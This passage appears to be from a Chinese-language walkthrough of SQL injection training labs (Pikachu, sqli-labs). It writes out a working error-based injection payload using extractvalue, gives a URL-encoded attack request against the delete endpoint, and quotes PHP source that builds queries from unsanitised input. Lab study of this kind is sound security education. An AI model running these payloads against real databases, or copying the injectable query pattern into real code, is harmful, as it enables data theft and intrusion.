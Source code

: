 ![](https://img.yatjay.top/md/202203251648104.png)

#### 查询指定数据

略

### update

UPDATE的注入同理，也是可以用上述同样的payload，需要注意的是，填写update表单的时候记得每一栏都要填上再点submit，不然是不执行的，这个是靶场后端代码的问题。

### delete

不难发现这里点击删除的按钮会get方式发送id参数，同时id参数为一个数字类型，所以同样可以报错函数来触发回显。构造payload

```sql
 or extractvalue(1,concat(0x7e,database()))#
```

url编码后拼接在url参数后面

```sql
http://xxxxxx/vul/sqli/sqli_del.php?id=61%20or%20extractvalue(1%2cconcat(0x7e%2cdatabase()))#
//访问后，database()函数成功执行并在报错中回显，注入成功。
```

XPATH syntax error: '~pikachu'

报错注入 floor注入（可参考https://www.cnblogs.com/sfriend/p/11365999.html）

floor()报错注入是利用floor,count,group by冲突报错，是当这三个函数在特定情况一起使用产生的错误。了解原理之后你会发现这是一个非常巧妙的方法。



![](https://img.yatjay.top/md/202203251648030.png)

## sqlilabs-less5注入测试(布尔盲注)

从less-5的源码可以看到，尽管SQL语句使用了select查询，但是在返回界面不显示查询结果相关的东西，而是对查询结果做判断之后输出其他东西。

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysqli_query($con, $sql);
$row = mysqli_fetch_array($result, MYSQLI_BOTH);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}
	else 
	{
	
	echo '<font size="3" color="#FFFF00">';
	print_r(mysqli_error($con));
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
	}
```
